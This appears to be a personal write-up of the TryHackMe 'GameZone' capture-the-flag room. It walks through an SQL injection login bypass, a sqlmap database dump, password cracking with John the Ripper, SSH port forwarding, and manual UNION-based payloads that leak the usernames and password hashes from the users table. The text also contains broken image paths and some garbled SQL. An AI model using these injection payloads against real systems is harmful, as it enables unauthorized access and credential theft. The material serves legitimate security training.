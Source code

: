 **Learn to hack into this machine. Understand how to use SQLMap, crack  some passwords, reveal services using a reverse SSH tunnel and escalate  your privileges to root!**

# Obtain access via SQLi

## Manually

In this task you will understand more about SQL (structured query  language) and how you can potentially manipulate queries to communicate  with the database.

SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:

**`SELECT \* FROM users WHERE username = :username AND password := password`**

In our GameZone machine, when you attempt to login, it will take your  inputted values from your username and password, then insert them  directly into the query above. If the query finds data, you'll be  allowed to login otherwise it will display an error message.

Here  is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute  it.

​                                                            

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: **' or 1=1 -- -** it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

**SELECT \* FROM users WHERE username = admin AND password := ' or 1=1 -- -**

The extra SQL we inputted as our password has changed the above query to  break the initial query and proceed (with the admin user) if 1==1, then  comment the rest of the query to stop it breaking.

​                                                            

GameZone doesn't have an admin user  in the database, however you can still login without knowing any  credentials using the inputted password data we used in the previous  question.

Use **' or 1=1 -- -** as your username and leave the password blank.

## Using SQLMap

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..)  and SQLMap automates the whole process trying different techniques.

​                                                            

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

 ![img](https://i.imgur.com/ox4wJVH.png)

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

```shell
sqlmap -r request.txt --dbms=mysql --dump
```

**-r** uses the intercepted request you saved earlier
**--dbms** tells SQLMap what type of database management system it is
**--dump** attempts to outputs the entire database

![img](https://i.imgur.com/iiQ7g9t.png)

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

# Cracking a password with JohnTheRipper                            

Once you have JohnTheRipper installed you can run it against your hash using the following arguments:

![img](https://i.imgur.com/64g6Y8F.png)

hash.txt - contains a list of your hashes (in your case its just 1 hash)
--wordlist - is the wordlist you're using to find the dehashed value
--format - is the hashing algorithm used. In our case its hashed using SHA256.

# Exposing services with reverse SSH tunnels                            

![img](https://i.imgur.com/cYZsC8p.png)

Reverse SSH port forwarding specifies that the given port on the remote server  host is to be forwarded to the given host and port on the local side.

**-L** is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can  forward the traffic to a server you own and view it. For example, if  imgur was blocked at work, you can do **ssh -L 9000:imgur.com:80 user@example.com.** Going to localhost:9000 on your machine, will load imgur traffic using your other server.

**-R** is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in  reverse.

We will use a tool called **ss** to investigate sockets running on a host.

If we run **ss -tulpn** it will tell us what socket connections are running

| **Argument** | **Description**                    |
| ------------ | ---------------------------------- |
| -t           | Display TCP sockets                |
| -u           | Display UDP sockets                |
| -l           | Displays only listening sockets    |
| -p           | Shows the process using the socket |
| -n           | Doesn't resolve service names      |

We can see that a service running on port 10000 is blocked via a  firewall rule from the outside (we can see this from the IPtable list).  However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run **ssh -L 10000:localhost:10000 <username>@<ip>**

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.



# Manually sql command

Let's find out how many columns are being selected in the intended query so we concatenate it with a UNION:

```sql
' UNION select 1 from information_schema.tables #
' UNION select 1,2 from information_schema.tables #
' UNION select 1,2,3 from information_schema.tables #
```

![image-20220423165321264](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220423165321264.png)

The first two queries above will return errors stating that the two select statements in the query are different. The last one will not error out but will return a 2 and 3 which means that the number of columns being selected is 3 (the first selection in the table is not being echoed from PHP).

From this, we can get all of the table names now and then see if we can get any sensitive information in order to access the system with this:

```sql
' UNION select 1,table_schema,table_name from information_schema.tables #
```

![image-20220423165513179](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220423165513179.png)

Looking through the output we can see that we have a post and users table

The users table sounds interesting. Usually a table with that name will have usernames and hashes in them so we will try and leak those.

We, now, need to find out the name of the columns for that table:

```sql
' UNION select 1,table_name,column_name from information_schema.columns #
```

![image-20220423165800549](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220423165800549.png)

This will output all of the column names with their associated tables.

We can see two interesting columns within the users table: username and pwd. Let's leak those columns:

```sql
' UNION select 1,username,pwd from users #
```

![image-20220423165911691](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220423165911691.png)